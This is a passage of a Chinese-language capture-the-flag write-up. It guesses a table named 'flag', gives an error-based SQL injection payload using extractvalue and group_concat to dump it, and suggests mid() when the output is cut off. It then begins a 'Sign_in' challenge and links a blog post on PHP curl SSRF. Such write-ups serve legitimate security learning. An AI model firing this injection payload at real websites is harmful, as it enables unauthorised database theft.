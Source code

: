 尝试爆表半天出不来，平时做题最多的表名就是什么flag，ctf什么的

就直接尝试去爆flag：' or extractvalue(1,concat(0x7e,(select group_concat(flag) from flag),0x7e)))#

![img](/upload/img/clip_image012.gif)

数据不全，用mid爆出来就行

### Sign_in：

这个题打开

![img](/upload/img/clip_image014.gif)

之前又见过一些类似的，链接：[(26条消息) php curl ssrf,ssrf漏洞学习(PHP)_拖狗老师的博客-CSDN博客](https://blog.csdn.net/weixin_29963537/article/details/115813343)
